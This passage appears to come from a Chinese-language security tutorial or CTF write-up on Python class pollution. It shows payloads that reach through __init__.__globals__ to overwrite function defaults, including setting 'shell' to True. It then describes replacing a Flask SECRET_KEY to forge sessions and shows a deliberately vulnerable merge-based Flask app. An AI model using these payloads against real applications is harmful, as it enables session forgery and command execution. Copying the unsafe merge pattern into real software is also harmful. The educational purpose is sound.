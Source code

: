 所以我们就可以通过替换该属性，来实现对函数位置或者是键值默认值替换，但是前提条件是我们要替换的值是元组的形式：\`

```plain
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__defaults__" : (True,)
            }
        }
    }
}
```

`__kwdefaults__`是以字典形式来进行收录：

```plain
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__kwdefaults__" : {
                    "shell" : True
                }
            }
        }
    }
}
```

## 关键信息替换：

### flask 密钥替换：

如果我们可以对密钥进行替换，赋值为我们想要的，我们就可以进行任意的 session 伪造，这里因为 secret\_key 是在当前入口文件下面的，所以我们可以直接通过`__init__.__globals__`获取全局变量，然后通过 app.config\["SECRET\_KEY"\]来进行污染：下面用一下师傅的示范的板子

```plain
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
```